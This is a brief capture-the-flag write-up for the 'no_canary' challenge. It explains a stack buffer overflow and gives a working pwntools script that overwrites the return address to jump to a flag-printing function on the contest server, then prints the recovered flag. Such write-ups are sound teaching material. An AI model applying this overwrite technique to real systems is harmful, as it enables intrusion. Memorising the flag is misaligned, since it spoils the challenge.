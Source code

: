 ![img/no_canary_0.png](img/no_canary_0.png)

This is a classic buffer overflow.
Print flag function at address 0x0000000000401186

Exploit:
```python
from pwn import *

flag = 0x0000000000401186

p = remote('shell.actf.co', 20700)
#p = process('./no_canary')

payload = (("A"*40).encode())
payload += p64(flag)

print(p.recvuntil('name? ').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
```
actf{that_gosh_darn_canary_got_me_pwned!}
```
